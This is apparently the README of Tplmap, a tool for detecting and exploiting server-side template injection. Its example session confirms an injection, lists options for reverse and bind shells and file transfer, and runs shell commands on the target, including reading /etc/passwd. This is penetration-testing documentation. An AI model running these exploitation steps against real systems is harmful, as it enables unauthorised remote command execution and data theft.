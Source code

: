 Tplmap
======

Tplmap (short for _Template Mapper_) is a tool that automate the process of detecting and exploiting Server-Side Template Injection vulnerabilities (SSTI). This assists SSTI exploitation to compromise the application and achieve remote command execution on the operating system. 

The tool can be used by security researches and penetration testers, to detect and exploit vulnerabilities and study the template injection flaws.

Tplmap template capabilities can be extended via plugins. Several sandbox break-out methodologies came from James Kett's research [Server-Side Template Injection: RCE For The Modern Web App][1] and other original [researches](http://disse.cting.org/2016/08/02/2016-08-02-sandbox-break-out-nunjucks-template-engine).

As advanced features Tplmap detects and achieves command execution in case of blind injections and is able to inject in code context.

Example
--------

```
$ ./tplmap.py -u 'http://www.target.com/app?id=*' 
[+] Tplmap 0.1
    Automatic Server-Side Template Injection Detection and Exploitation Tool

[+] Found placeholder in GET parameter 'inj'
[+] Smarty plugin is testing rendering with tag '{*}'
[+] Smarty plugin is testing blind injection
[+] Mako plugin is testing rendering with tag '${*}'
...
[+] Freemarker plugin is testing blind injection
[+] Velocity plugin is testing rendering with tag '#set($c=*)\n${c}\n'
[+] Jade plugin is testing rendering with tag '\n= *\n'
[+] Jade plugin has confirmed injection with tag '\n= *\n'
[+] Tplmap identified the following injection point:

  Engine: Jade
  Injection: \n= *\n
  Context: text
  OS: darwin
  Technique: render
  Capabilities:
  
   Code evaluation: yes, javascript code
   Shell command execution: yes
   File write: yes
   File read: yes
   Bind and reverse shell: yes

[+] Rerun tplmap providing one of the following options:

   --os-shell or --os-cmd to execute shell commands via the injection
   --upload LOCAL REMOTE to upload files to the server
   --download REMOTE LOCAL to download remote files
   --bind-shell PORT to bind a shell on a port and connect to it
   --reverse-shell HOST PORT to run a shell back to the attacker's HOST PORT
        
$ ./tplmap.py -u 'http://www.target.com/app?id=*' --os-shell
[+] Run commands on the operating system.

linux $ whoami
www-data
linux $ ls -al /etc/passwd
-rw-r--r--  1 root  wheel  5925 16 Sep  2015 /etc/passwd
linux $

```

Supported template engines
--------------------------

| Template engine    | Detection          | Command execution | Code evaluation | File read | File write |
|--------------------|--------------------|-------------------|-----------------|-----------|------------|
| Mako               |  render+blind      | yes               | python          | yes       | yes        |
| Jinja2             |  render+blind      | yes               | python          | yes       | yes        |
| Nunjucks           |  render+blind      | yes               | javascript      | yes       | yes        |
| Jade               |  render+blind      | yes               | javascript      | yes       | yes        |
| Smarty (unsecured) |  render+blind      | yes               | PHP             | yes       | yes        |
| Freemarker         |  render+blind      | yes               | no              | yes       | yes        |
| Velocity           |  render            | no                | no              | no        | no         |
| Twig               |  render            | no                | no              | no        | no         |
| Smarty (secured)   |  render            | no                | no              | no        | no         |


[1]: http://blog.portswigger.net/2015/08/server-side-template-injection.html
